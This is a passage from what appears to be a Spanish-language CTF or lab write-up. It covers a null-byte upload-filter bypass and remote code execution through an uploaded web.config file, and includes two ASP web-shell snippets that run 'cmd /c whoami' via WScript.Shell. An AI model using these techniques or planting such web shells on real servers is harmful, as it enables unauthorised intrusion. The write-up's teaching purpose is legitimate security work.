 Vamos a realizar una [inyección de caracteres nulos](https://infosecwriteups.com/bypass-server-upload-restrictions-69054c5e1be4) para evadir de alguna manera los filtros, para que así se logre cargar.

![ebdc767ef64d3672604cbdab68a14e9f.png](ebdc767ef64d3672604cbdab68a14e9f.png)

Logramos cargar nuestro archivo al servidor, ahora probaremos a entablarnos una consola interactiva del servidor hacia nuestra maquina atacante. Pero vemos que no se puede, ya que nos marca un error.

![b313d49cb6d0c0e8b597672ba9a96932.png](b313d49cb6d0c0e8b597672ba9a96932.png)

Probamos a subir varios extenciones de archivos y nos deja subir un web.config, un web.config es como un .htaccess de un servidor apache

* [https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit)
* [https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/](https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/)

Tenemos una manera de ejecutar comandos, si probamos inyectantando el siguiente codigo.

```bash
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

```bash
<%
Set wShell = CreateObject("WScript.Shell")
Set cmd = wShell.Exec("cmd.exe /c whoami")
output = cmd.StdOut.Readall()
Response.write(output)
%>
```
